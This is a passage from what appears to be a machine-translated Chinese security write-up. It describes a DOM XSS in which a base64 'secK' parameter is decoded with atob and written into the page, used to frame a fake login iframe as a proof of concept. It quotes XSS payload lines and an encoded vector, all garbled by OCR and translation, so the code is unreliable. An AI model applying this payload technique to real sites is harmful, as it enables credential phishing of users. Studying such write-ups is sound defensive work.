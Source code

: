 g 的值为:

> var h = " V8 ylvstkpkcylnwzzbgkdbgdldgybbhki 9 gdhhsz 0 LMC 35 cduvwb 1n 2 bkpddwlmcjnxy 2 fma 1 "；console.log(atob(h.substr(0，h.length-1))。拆分(" ")。反转()。join(" "))；
> 
> JavaScript:document . write(atob(p[` get `](` seck `))；////

所以我们取 param secK 的值并用 atob 函数解码，解码完成后，该值被写入 DOM 并呈现。

secK 的值是:

> atob(' pglmcmftzsbbvbmxvywq 9 indpbmrvdy 5 zdg 9 wkck 7 innyyz 0 nly 9 nb 28 uz 2 wvafe 0 efh VJ 3n 0 ewxlpsjozwlnahq 6 mtawmhb 4 o 3d pzhroewmcu 7 ym 9 yzgvyojaipg = = ')

我们使用 google redirector 来缩短 base64 向量，删除我们可以删除的空格，删除边框，设置 iframe 以获取 viewport 的完整值，并删除加载旋转动画，我们设置 window.stop()在页面完成加载后立即运行。

概念验证:

![](img/893692c4d18fcc749ff31f4a782b05b4.png)

使用 github 页面的假登录 iframe 服务器在 Google Chrome 上加载 Img 5.0 页面

![](img/20032e0838117206193187dc802b0267.png)
